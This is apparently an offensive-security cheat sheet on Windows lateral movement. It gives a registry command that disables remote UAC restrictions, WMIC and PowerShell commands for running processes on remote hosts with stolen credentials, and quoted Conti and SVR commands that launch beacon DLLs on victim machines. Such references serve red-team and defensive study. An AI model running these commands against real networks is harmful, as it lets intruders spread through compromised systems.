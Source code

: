 # Lateral Movement

### Disable Remote UAC Restrictions
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
## WMIC
Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)
WMI allows users with the required privileges to execute commands in remote hosts without additional tools. Adversaries abuse this feature to move laterally in a compromised network.&#x20;
Adversaries used the following commands to execute commands in a remote host:
```powershell
wmic /node:<remote_ip> /user:<username> /password:<password> process call create cmd.exe /c "<command>"
```
Or, you can do it with PowerShell:
```powershell
Invoke-WMIMethod -class Win32_Process -Name Create -ArgumentList "cmd /c <command>" -ComputerName <remote_hostname>
```
Specific TTP for Conti:
```powershell
wmic /node:victim_ip process call create "rundll32.exe C:/ProgramData/beacon_dll DllRegisterServer"
```
Specific TTP for Russian Foreign Intelligence Service (SVR):
```powershell
wmic /node:<remote_host's_IP> /user:<username> /password:<password> process call create "rundll32 C:\Windows\system32\AclNumsInvertHost.dll AclNumsInvertHost"
```